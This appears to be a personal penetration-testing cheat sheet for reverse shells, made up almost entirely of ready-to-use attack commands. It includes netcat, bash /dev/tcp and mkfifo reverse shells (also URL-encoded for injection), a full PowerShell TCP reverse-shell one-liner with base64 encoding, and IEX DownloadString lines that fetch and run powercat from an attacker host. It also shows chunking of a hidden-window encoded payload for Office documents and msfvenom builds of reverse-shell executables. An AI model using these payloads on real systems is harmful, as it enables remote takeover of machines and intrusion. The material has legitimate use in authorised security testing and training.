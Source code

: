 # Reverse shells

## References

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://www.revshells.com/
- Hacktricks: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells

## Netcat

Listener:
```
nc -nvlp PortAtt
```
Reverse shell:
```
nc -nv $AttackerIp $AttackerPort -e /bin/bash
```

## URL encoding

- https://en.wikipedia.org/wiki/Percent-encoding
- https://www.urlencoder.io/
- With curl: `curl http://vulnwebsite/backdoor.php --data-urlencode "cmd=ls -l"`

## Powershell

```
$ pwsh
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("attackerIp",attackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)

cmd> powershell -enc xyz
```
API: https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.socket?view=net-7.0

## Bash 

```
bash -c "bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$AttackerIp%2F$AttackerPort%200%3E%261%22
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc $AttackerIP $AttackePort > /tmp/f
rm%20%2Ftmp%2Ff%20%3B%20mkfifo%20%2Ftmp%2Ff%20%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20$AttackerIP%20$AttackePort%20%3E%20%2Ftmp%2Ff
```
Other shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Powercat - Office

Powercat script: https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
```
IEX(New-Object System.Net.WebClient).DownloadString('http://IpAtt/powercat.ps1');powercat -c IpAtt -p PortAtt -e powershell

str = "powershell.exe -nop -w hidden -e xxxx..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')

cd /usr/share/powershell-empire/empire/server/data/module_source/management
python3 -m http.server 80
```
or direct:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp:$AttackerHttpPort/powercat.ps1');powercat -c $AttackerIp -p $AttackerNcPort -e powershell"
```
API: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-7.0

## Mfsvenom

```
msfvenom -h
msfvenom --list payloads
msfvenom --list platforms
msfvenom --list formats
msfvenom -p linux/x86/shell_reverse_tcp --list-options
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f elf > shell.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f exe > windows_reverse.exe
Invoke-WebRequest -Uri http://IpAttacker/windows_reverse.exe -OutFile windows_reverse.exe
```
